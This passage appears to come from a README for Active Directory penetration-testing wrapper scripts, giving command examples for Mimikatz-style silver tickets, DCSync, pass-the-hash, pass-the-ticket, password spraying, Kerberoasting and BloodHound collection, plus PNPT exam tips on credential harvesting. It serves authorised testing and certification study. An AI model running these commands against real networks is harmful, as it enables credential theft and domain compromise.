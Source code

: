 ```bash
./mimikatz-wrapper.py local silver -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -t sqlserver.contoso.local -v MSSQLSvc

# DCSync
./mimikatz-wrapper.py local dcsync -d contoso.local -c dc01.contoso.local

# Pass-the-Hash
./mimikatz-wrapper.py pth -t 192.168.1.100 -d contoso.local -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 -c "whoami"

# Pass-the-Ticket
./mimikatz-wrapper.py ptt -t 192.168.1.100 -c "dir \\\\server\\share"
```

### AD Pentest Toolkit

```bash
# Check environment
./adpentest-toolkit.py check

# Password spraying
./adpentest-toolkit.py spray -t 192.168.1.100

# NetExec enumeration
./adpentest-toolkit.py netexec -t 192.168.1.100 -s smb,users,creds,spider,policy

# Kerberoasting
./adpentest-toolkit.py kerberoast -t 192.168.1.100

# BloodHound collection
./adpentest-toolkit.py bloodhound -t 192.168.1.100

# Full scan with all tools
./adpentest-toolkit.py full -t 192.168.1.100
```

---

## Exam Specific Tips

### PNPT (Practical Network Penetration Tester)

1. Focus on initial entry points:
   - Start with network scanning and SMB enumeration
   - Use NetExec wrapper for quick reconnaissance
   - Try password spraying early with common passwords

2. For credential harvesting:
   - Use Mimikatz wrapper for local extraction
   - Try NTLM relay attacks if applicable
   - Dump SAM/LSA with NetExec when you get admin access
